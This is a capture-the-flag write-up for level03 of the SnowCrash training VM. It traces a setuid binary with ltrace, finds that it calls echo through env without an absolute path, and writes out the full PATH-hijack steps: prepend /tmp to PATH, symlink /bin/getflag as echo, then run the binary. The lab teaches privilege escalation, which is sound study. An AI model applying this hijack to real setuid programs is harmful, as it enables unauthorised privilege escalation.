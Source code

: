 # Env invocation by a privileged user 

## Step 1: Exploring content 
```
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```

### Observations:

- `flag03`: This is the owner of the file. The file is owned by the user `flag03`.s

- `level03`: This is the group that the file belongs to. The file is associated with the group `level03`.

The presence of the setuid bit (`s` in the owner's permission) is particularly noteworthy. It means that anyone executing this file will have the same privileges as the owner of the file (`flag03`) during its execution. This can have security implications, especially if the file allows for more privileged actions than intended for general users.

## Step 2: Investigating the file using ltrace 
ltrace is a common tool used in software development and security analysis for understanding the behavior of binaries, especially when source code is not available or when trying to diagnose runtime issues or vulnerabilities.

```
ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

### Some key security notions: 

- PATH vulnerability 
    - PATH tells the system where to look for executable files when a command is type without a full path
    - Vulnerability: relying on relative paths -> Risk: the system might execute a different program than intended if the attacker can control what is in the path 

- System call of a program 
    - Noticing that a program uses system calls to execute common utilities (like echo) without specifying an absolute path can raise a red flag.
    - Noticing that an executable has the SUID bit set and runs with elevated privileges under certain conditions (e.g., runs as a different user) suggests that if you could control what the executable does
    -  output shows that the program makes a call to system("/usr/bin/env echo Exploit me") 
    - The use of /usr/bin/env to find echo implies it relies on the environment's PATH variable to locate the echo binary. This method does not specify an absolute path to echo, which indeed raises a red flag for a potential PATH vulnerability.
- SUID bit
    - geteuid() and getegid() return the effective user id and group id of the process. Since both return 2003 it tells us the process might be runing with elevated privileges
    - calls of setresuid() and setresgid() set the real effective user/group ids for the process, IF THE PROGRAM DID NOT HAVE ELEVATED PRIVILEGES, it would not need to explictly set 

### Connecting the Dots

- Putting these pieces together—knowing the system looks in PATH for how to execute commands, understanding the SUID bit gives a file special permissions, and seeing a program call a utility like echo without an absolute path—leads to the realization that manipulating PATH could make the system execute a different echo than intended.

- If we can make the system execute our version of echo, which actually runs something else (like getflag), then we can potentially escalate our privileges or execute commands we normally couldn’t.

### Step3: Create symbolic link

```export PATH="/tmp:$PATH" ```
- Prepending /tmp to ensure it looks first in /tmp (standard world writable directory, temporary so it does not raise suspicions) 

```cd /tmp```
- we need to be in temp to create a symbolic link

```ln -s /bin/getflag echo```
- creating symbolic link to /bin/getflag  (instead of running echo it will run /bin/getflag)

```cd $OLDPWD```
- go back to old path to run ./level03

```./level03```
